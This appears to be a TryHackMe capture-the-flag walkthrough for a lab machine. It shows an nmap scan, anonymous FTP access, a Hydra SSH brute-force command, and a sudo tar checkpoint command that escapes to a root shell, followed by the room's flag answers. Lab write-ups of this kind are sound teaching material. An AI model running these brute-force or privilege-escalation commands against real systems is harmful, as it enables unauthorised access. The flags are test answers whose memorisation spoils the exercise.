






#Linux #tar #privesc #security 

---

> Doing an nmap scan to discover open ports and services.

```
└─$ nmap -sC -sV 10.10.80.223
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-08 07:32 EDT
Nmap scan report for 10.10.80.223
Host is up (0.16s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.5.150
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.78 seconds
```

> We see that we login as `anonymous` user into `ftp`.

```
ftp anonymous@10.10.80.223
```

> Listing the contents, we see 2 files.



> Downloading both files to view their contents on our local attacking machine.

```
get locks.txt
get task.txt
```



######  Who wrote the task list? : `lin` .

###### What service can you bruteforce with the text file found? : `ssh` .

> We use Hydra to attack `ssh` with the given username `lin` and the passwords found in the `locks.txt` file.

```
hydra -l lin -P locks.txt ssh://10.10.80.223 
```



> We get the password `RedDr4gonSynd1cat3`.

###### What is the users password? : `RedDr4gonSynd1cat3` .

> Now logging in as `lin` into the ssh machine and giving the password when prompted.



> Listing the contents via `ls`, we see a `user.txt` file.
> Opening it to view its contents and submit the flag.

```
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

###### user.txt : `THM{CR1M3_SyNd1C4T3}` .

> We check what are the binaries we can run as sudo user.

```
sudo -l
```



> We see that we can run `tar` as superuser.
> Checking out [GTFObins](https://gtfobins.github.io/gtfobins/tar/) for `tar`, we see there is a privilege escalation technique using `sudo`.



> We paste this command in the `ssh` terminal and become root user.

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

> We become root user.
> Going to the root directory and opening the `root.txt` flag.

```
cd ../../../root
cat root.txt
```

> We get the flag: `THM{80UN7Y_h4cK3r}`.

###### root.txt : `THM{80UN7Y_h4cK3r}` .

---

